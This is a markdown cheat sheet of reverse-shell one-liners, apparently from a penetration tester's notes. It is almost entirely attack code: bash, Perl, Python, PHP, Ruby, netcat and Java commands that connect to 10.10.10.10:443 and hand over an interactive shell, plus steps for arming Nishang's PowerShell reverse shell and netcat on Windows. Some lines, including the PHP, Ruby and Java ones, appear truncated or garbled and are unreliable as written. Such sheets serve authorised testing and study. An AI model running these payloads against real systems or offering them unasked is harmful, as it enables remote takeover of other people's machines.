 ### Linux
---
#### One-liners
Credit to [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
``` bash
# bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1"

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i &3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i &%d 2>&%d",f,f,f)'

# Netcat : -u for UDP
nc [-u] 10.10.10.10 443 -e /bin/bash

# Netcat without -e : -u for UDP
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [-u] 10.10.10.10 443 > /tmp/f

# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5/dev/tcp/10.10.10.10/443;cat &5 >&5; done"] as String[])
p.waitFor()
```

#### Reverse shell scripts
PHP reverse shell available [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or locally
`/usr/share/webshells/php/php-reverse-shell`

Python PTY shells available [here](https://github.com/infodox/python-pty-shells)

### Windows 

PowerShell reverse shell available [here](https://github.com/samratashok/nishang)
PHP reverse shell available [here](https://github.com/Dhayalanb/windows-php-reverse-shell)
Netcat for Windows available [here](https://eternallybored.org/misc/netcat/)
``` bash
# PowerShell
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
vi shell.ps1
# go to end of file, paste the following
Invoke-PowerShellTcp -Reverse -IPAddress [attacker_ip] -Port [attacker_port]
# close, reverse shell ready to use

# Netcat - use x64 or x32 as per target. powershell.exe or cmd.exe
nc.exe x.x.x.x <port> -e powershell.exe
```
